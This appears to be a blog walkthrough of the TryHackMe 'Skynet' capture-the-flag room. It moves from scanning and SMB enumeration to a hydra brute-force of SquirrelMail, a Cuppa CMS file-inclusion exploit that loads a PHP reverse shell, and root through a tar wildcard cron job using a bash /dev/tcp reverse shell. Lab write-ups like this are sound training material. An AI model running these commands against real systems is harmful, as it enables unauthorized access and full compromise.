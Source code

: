 ```yaml
---
slug: skynet-walkthrough
title: TryHackMe - Skynet - Walkthrough
authors: bw
tags: [learning, skynet, tryhackme, walkthrough]
---
```


This is a walkthrough for the [TryHackMe][thm] room: [Skynet][skynet]. Let’s get started!
<!-- truncate -->

# Deploy and Compromise the machine
Since we don’t know anything about this machine, let’s start with an nmap scan! The command I used was: `nmap -sC -sV -oN nmap.txt <machine_ip>`

![s1](/img/thm/skynet/s1.webp)

We can see that we have `ssh`, `http`, `pop3`, `smb`, and `imap` open. We can immediately eliminate `ssh` as an attack vector, so we need to focus on the others. First answer is asking for a password to an email, so let’s start by looking at the website.

![s2](/img/thm/skynet/s2.webp)

We don’t see much here. Let’s run a gobuster scan in order to gather some directories. I used this command: `gobuster dir -u http://10.10.8.13 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

gobuster finds a few directories, however we aren’t able to access them. We get a **Forbidden** message. I will let gobuster continue running in the background, but let’s checkout the smb avenue.

If we use the `smbclient` we see the following (Hit **Enter** when prompted for a password):

![s3](/img/thm/skynet/s3.png)

We definitely see some interesting share’s here. We have a possible username: milesdyson. Lets checkout that share: `smbclient \\\\10.10.8.13\\milesdyson` 

Unfortunately, we don’t have access. Instead, let’s try the `anonymous` share.

We are in! We see `attention.txt` and `logs`. Run: `get attention.txt` to download the file.

![s4](/img/thm/skynet/s4.png)

Hmm…that’s interesting! Maybe the logs caught some people’s passwords? Let’s see!

`cd` into the logs directory, and we see 3 files. The only one that has any date (due to the size) is `logs1.txt`. Let’s download that and take a look!

![s5](/img/thm/skynet/s5.png)

This looks very promising!! This looks like it could be some passwords? We could use this as a wordlist in `hydra` if we can find a login page anywhere. Let’s check back with `gobuster`.

We see one new entry `/squirrelmail`. Let’s see if we can reach this page!

![s6](/img/thm/skynet/s6.webp)

Success!! Now we “think” we already know a username: `milesdyson`, but we don’t know his password. We could try each entry in that list one-by-one, but that might take some time. Let’s try to use hydra against the login. Format your `hydra` like the following:

```bash
hydra -l milesdyson -P <password_wordlist> <machine_ip> <request_type> '<login_page>:<request_body>:<invalid_notification>'
```

If you are unsure as to what those mean, or how to find them, read this article on the topic: here. Our command will be the following:

```bash
hydra -l milesdyson -P log1.txt 10.10.8.13 http-post-form '/squirrelmail/redirect.php:login_username=milesdyson&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect.'
```

![s7](/img/thm/skynet/s7.webp)

Perfect! Our first answer! Let’s login to the mail! If we look at the emails we find a **Samba Password reset** email.

![s8](/img/thm/skynet/s8.png)

After looking around more, there doesn’t seem to be anything else. Let’s login to the `milesdyson` samba share using that password!

`smbclient -U milesdyson \\\\10.10.8.13\\milesdyson`

When we `ls` the share, we see a few items in there. One that sticks out to me is the notes directory.

When we look at the notes directory, there are a lot of files in it, but which one is important?? `get important.txt`

![s9](/img/thm/skynet/s9.png)

There is our next answer! Now we can navigate to that directory.

![s10](/img/thm/skynet/s10.webp)

Hmm…not much here. But we did see a mention of `CMS` in the `important.txt` file. Let’s run a gobuster scan against this URL:

`gobuster dir -u http://10.10.8.13/45kra24zxs28v3yd -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

Eventually, we get back an `/administrator` page. Navigate to that page.

![s11](/img/thm/skynet/s11.webp)

We see it is using **Cuppa CMS**. Let’s see if there are any exploits for this in `searchsploit`.

`searchsploit cuppa`
`cat /usr/share/exploitdb/exploits/php/webapps/25971.txt`

Reading through, we get our third answer. Now let’s use the exploit!

First, we need to know how we can use a file in order to get a shell on a machine. In this case, we know this is using .php. Let’s use `php-reverse-shell.php`! This can be found [here][php-rev-shell]. Make sure to change the parameters to your machine and IP you will use to listen for the reverse shell!

![s12](/img/thm/skynet/s12.png)

Now we need to start a http server on our machine in the folder where the reverse shell file is located: `python3 -m http.server 80`

Start a netcat listener on the specified port: `nc -nvlp 1234`

Then curl or navigate to the following url:

`http://10.10.8.13/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://<thm_tun0_ip>:80/php-reverse-shell.php`

When you navigate to your terminal with the netcat listener, you should see a shell! Let’s look for the user flag.

![s13](/img/thm/skynet/s13.png)

Now we need to escalate our privileges for the root flag! Before we do anything else, let’s get into a better shell using python:

`python -c 'import pty; pty.spawn("/bin/bash")'`

Let’s see if we have any sudo permissions: `sudo -l`, nope! Maybe there are `cron` jobs running as root?

`cat /etc/crontab`

We see there is a `backup.sh` that runs every minute! There’s our target. Let’see what’s in there: `cat /home/milesdyson/backups/backup.sh`

![s14](/img/thm/skynet/s14.png)

We need to use this cron job to gain a shell. I wonder if there is a way to execute a shell from tar? Let’s check out [GTFObins][gtfo]. We can search for the `tar` command, and we see a few options. Let’s try the first one:

`tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`

We can use this to get a shell, but we need to create some things first:

```bash
printf '#!/bin/bash\nbash -i >& /dev/tcp/<thm_tun0_ip>/1235 0>&1' > /var/www/html/shell
chmod +x /var/www/html/shell
touch /var/www/html/--checkpoint=1
touch /var/www/html/--checkpoint-action=exec=bash\ shell
```

Now we can open up a `netcat` listener to get the reverse shell: `nc -nvlp 1235`
**NOTE:** This could take up to a minute for the shell to come through

We have a root shell! Let’s find our root flag!

![s15](/img/thm/skynet/s15.png)

# References
[TryHackMe][thm] | [Skynet Room][skynet] | Hydra Brute-Force Login | [php-reverse-shell.php][php-rev-shell] | [GTFObins][gtfo]

[thm]: https://tryhackme.com
[skynet]: https://tryhackme.com/why-subscribe?roomCode=skynet
[php-rev-shell]: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
[gtfo]: https://gtfobins.github.io